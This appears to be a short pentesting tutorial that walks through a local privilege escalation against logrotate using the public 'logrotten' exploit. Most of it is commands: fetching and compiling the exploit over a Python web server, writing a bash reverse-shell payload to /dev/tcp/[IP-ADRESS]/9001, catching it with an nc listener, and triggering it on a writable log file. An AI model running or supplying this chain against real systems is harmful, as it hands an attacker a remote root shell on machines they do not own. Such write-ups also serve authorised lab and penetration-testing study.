



### **Understanding Logrotate**

Logrotate is a Linux utility designed to manage log files, automating tasks like rotating, compressing, and removing old logs to prevent them from consuming excessive disk space. It's typically scheduled via cron jobs and configured through files like `/etc/logrotate.conf` and service-specific configurations in `/etc/logrotate.d/`,When assessing Logrotate for potential exploits, start by identifying configurations that could be exploited:

- **Writable log files**: Check if you have write access to log files managed by Logrotate. If so, this is a strong indicator of potential exploitability.
- **Suid permissions**: Investigate whether Logrotate or any associated scripts are running with elevated privileges (e.g., as root). This could allow for privilege escalation.

### **Exploiting Logrotate Using Logrotten**

1.  Certain versions of Logrotate are known to be vulnerable To check the version, use the following command:  
    `logrotate --version`  

    

    **NOTE:** vulnerable versions: `3.8.6`, `3.11.0`, `3.15.0`, `3.18.0`
    
2.  download Logrotten from the GitHub repository.  
    `git clone https://github.com/whotwagner/logrotten.git`  
    
    

    **NOTE:** Host the script Using Python `python -m http.server 80`
    
3.  download and compiling the Logrotten exploit:
    
    ```bash
    wget http://[IP-ADRESS]:80/logrotten.c
    gcc logrotten.c -o logrotten
    ```
    
    
    
4.  Create a payload that Logrotate will execute. A common example is a bash reverse shell:  
    `echo 'bash -i >& /dev/tcp/[IP-ADRESS]/9001 0>&1' > payload`
    
5.  Set up a listener on your attacking machine, to catch the reverse shell:  
    `nc -nlvp 9001`
    
6.  Execute the exploit with the prepared payload:  
    `./logrotten -p ./payload /home/backups/access.log`  
    **NOTE:** Once Logrotate processes the payload, you should receive a shell.